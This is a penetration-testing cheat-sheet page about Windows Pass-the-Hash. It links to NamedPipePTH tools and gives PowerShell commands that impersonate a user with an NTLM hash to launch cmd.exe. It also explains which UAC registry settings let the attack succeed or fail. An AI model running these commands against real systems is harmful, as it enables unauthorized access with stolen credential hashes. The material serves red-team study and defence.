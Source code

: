 # Pass-the-Hash

- [https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)




## NamedPipePTH

* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)
* [https://github.com/S3cur3Th1sSh1t/NamedPipePTH](https://github.com/S3cur3Th1sSh1t/NamedPipePTH)
* [https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)

Impersonate a user with Pass-the-Hash for **local** actions (network authentication does not work with `Impersonation Token`, only with `Delegation Token`):

```
PS > Invoke-ImpersonateUser-PTH -Username snovvcrash -Hash fc525c9683e8fe067095ba2ddc971889 -Target localhost -Domain . -PipeName mypipe -Binary C:\Windows\System32\cmd.exe -Verbose
PS > Invoke-SharpNamedPipePTH -C "domain:megacorp.local username:snovvcrash hash:fc525c9683e8fe067095ba2ddc971889 binary:C:\Windows\System32\cmd.exe"
```

Can be used for authenticating in SQL Server management tools (`%PROGRAMFILES(X86)%\Microsoft SQL Server Management Studio 18\Common7\IDE\Ssms.exe`) and accessing DBs with SQL admin hash, for example.




## PtH Notes



### User Account Control

* [https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)



### LocalAccountTokenFilterPolicy & FilterAdministratorToken

| Property Name                                                                                                                                              | Property Path                                                                                  |
|------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------|
| [LocalAccountTokenFilterPolicy](https://docs.microsoft.com/ru-ru/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\` |
| [FilterAdministratorToken](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1)                      | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\` |

If `LocalAccountTokenFilterPolicy` exists and is set to `1` (doesn't exist by default), remote connections from **all** local admins are not affected by UAC and PtH will succeed:

```
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" -Name LocalAccountTokenFilterPolicy
```

If `FilterAdministratorToken` exists and is set to `1` (doesn't exist by default), builtin local admin account (RID 500) is affected by UAC and PtH will fail:

```
PS > Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ -Name FilterAdministratorToken
```
